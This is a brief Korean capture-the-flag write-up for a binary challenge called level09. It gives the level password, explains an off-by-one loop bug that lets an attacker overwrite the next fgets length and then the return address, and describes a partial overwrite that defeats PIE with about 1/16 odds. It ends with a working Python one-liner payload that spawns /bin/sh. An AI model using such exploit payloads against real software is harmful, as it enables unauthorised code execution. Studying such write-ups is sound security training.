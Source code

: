 > Password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

반복문 경계 검사에서 실수 때문에 1바이트까지 잘못된 위치에 쓸 수 있고, 
하필 그 위치가 다음 fgets의 길이를 결정하는 부분이여서, 이 부분을 통해 ret위치를 덮어쓸 수 있음.

pie 가 걸려있어서 넣을 값이 조금 까다롭지만, 같은 section끼리는 msb의 n비트가 같다는 점을 이용해서 lsb에서 최소한의 다른 비트만 쓰면 최소한의 시행착오를 거쳐서 인젝션을 성공할 수 있음.
이번 프로그램에서는 text section의 크기가 최대 1.5바이트이므로 가능한 최소 덮어쓰기 크기인 2바이트를 덮어씌우는데, 이때 최상위 0.5 비트는 랜덤 값을 넣는다. 0.5비트는 16이므로 1 / 16 정도의 충분히 합리적인 확률로 공격에 성공할 수 있다.

cat <(python -c 'import sys; sys.stdout.write("A" * 40 + "\xca" + "A" * 86 + "A" * 0xc8 + "\x8c\x48" + "A" * 821 + "/bin/sh\x00" + "A" * 119)') - | ./level09

NOTE: pie가 활성화되어있기 때문에 payload 중간의 \x48 에서 4 부분은 랜덤으로 바뀔 수도 있음.